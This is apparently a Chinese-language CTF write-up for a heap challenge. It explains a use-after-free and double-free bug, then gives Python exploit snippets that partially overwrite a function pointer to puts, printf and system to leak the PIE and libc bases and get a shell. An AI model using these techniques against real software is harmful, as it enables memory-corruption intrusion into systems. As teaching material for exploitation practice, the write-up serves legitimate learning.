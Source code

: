 delete string 根据输入下标释放 chunk 。

#### 漏洞

delete 操作释放 chunk 后，没有将相关索引指针置零，而且没有对 chunk 状态进行严格限制，仅仅限制下标范围，以及查询索引指针是否存在，并没有检查 inuse 位，造成 **UAF**、**Double free** 。

#### 思路

1. 利用 UAF 控制结构体堆块（String）最后 8 字节，修改 free_func 为 puts 函数地址。释放 chunk 泄露函数真实地址，通过计算得出程序加载基地址。完成绕过 PIE 保护。
2. 再次 UAF 控制结构体堆块（String）函数地址为 printf 函数，构造出格式化字符串漏洞，泄露栈上位于 libc 段的地址，完成 libc 地址泄露。
3. 第三次 UAF 控制结构体堆块（String）函数地址为 system 函数，利用 Linux 命令行特性 ``||`` 完成 getshell 

---

UAF 控制思路和例题差不多，但是一个问题。如果使用一样的 UAF 利用方法会出现问题：

```python
add(0x30,'a'*0x30)#0
add(0x30,'a'*0x30)#1
delete(1)
delete(0)
add(0x18,'b'*0x18)
```

这样不能达到预期效果，新堆的 string chunk 用的不是 chunk0 结构体，而是继续使用 chunk2 string chunk 。后续试过申请大小各种 string chunk 都是一样情况。

所以采用申请两个小堆（字符串长度小于 16），然后新堆申请一个 0x20 大小空间存放 string ，这样 string 就会使用 chunk1 结构体堆。

```python
add(8,'a'*8)
add(8,'b'*8)
delete(1)
delete(0)
```

在 free_short 附近找到 call puts 的地址：0xd2d 。然后使用 partial write 将 free_func 最低一个字节修改为 0x2d 。释放 chunk1 ，将 chunk1 结构体内容输入，从而泄露函数地址，计算出程序加载基地址。

```python
call_puts_addr = 0xd2d
payload = 'a'*0x18 + p64(call_puts_addr)[0]
add(len(payload),payload)

delete(1)
p.recvuntil('a'*0x18)
elf_base = u64(p.recv(6).ljust(8,'\x00'))-call_puts_addr
```

释放 chunk0 方便我们重复利用这两个堆，然后重复上面步骤找到 call printf ：0xDBB 。需要将格式化字符串在申请堆时写入在开头。偏移地址 gdb 调试找到一个 libc 内的地址即可。

```python
delete(0)
payload = '%22$p'.ljust(0x18,'a') + p64(0xDBB)[0]
add(len(payload),payload)
delete(1)
```
